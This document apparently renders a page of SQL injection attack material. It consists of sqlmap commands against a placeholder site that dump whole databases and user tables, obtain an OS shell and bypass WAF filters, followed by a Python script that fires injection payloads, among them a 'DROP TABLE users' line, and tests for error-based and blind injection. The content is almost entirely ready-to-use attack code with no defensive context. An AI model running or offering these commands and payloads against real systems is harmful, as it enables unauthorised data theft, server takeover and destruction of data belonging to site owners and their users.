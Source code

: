 ### **Advanced SQLi Automation with SQLMap:**
```bash
# Basic detection
sqlmap -u "http://target.com/products?id=1"

# Full database dump
sqlmap -u "http://target.com/products?id=1" --dump-all

# Specific database/table
sqlmap -u "http://target.com/products?id=1" -D mydb -T users --dump

# OS shell access
sqlmap -u "http://target.com/products?id=1" --os-shell

# Custom tampering for WAF bypass
sqlmap -u "http://target.com/products?id=1" --tamper=charencode,space2comment
```

### **Manual Exploitation Script:**
```python
import requests
import urllib.parse

def sql_injection_test(url, param, payloads):
    for payload in payloads:
        # Encode the payload
        encoded_payload = urllib.parse.quote(payload)
        
        # Test the payload
        test_url = f"{url}?{param}={encoded_payload}"
        response = requests.get(test_url)
        
        # Check for successful injection indicators
        if "error" in response.text.lower() or "syntax" in response.text:
            print(f"[!] Possible SQLi: {payload}")
            return True
            
        # Check for boolean-based differences
        true_response = requests.get(f"{url}?{param}=1' AND '1'='1")
        false_response = requests.get(f"{url}?{param}=1' AND '1'='2")
        
        if true_response.text != false_response.text:
            print(f"[!] Blind SQLi detected!")
            return True
    
    return False

# Usage
payloads = ["'", "';", "' OR '1'='1", "')--", "'; DROP TABLE users--"]
sql_injection_test("http://target.com/products", "id", payloads)
```

---
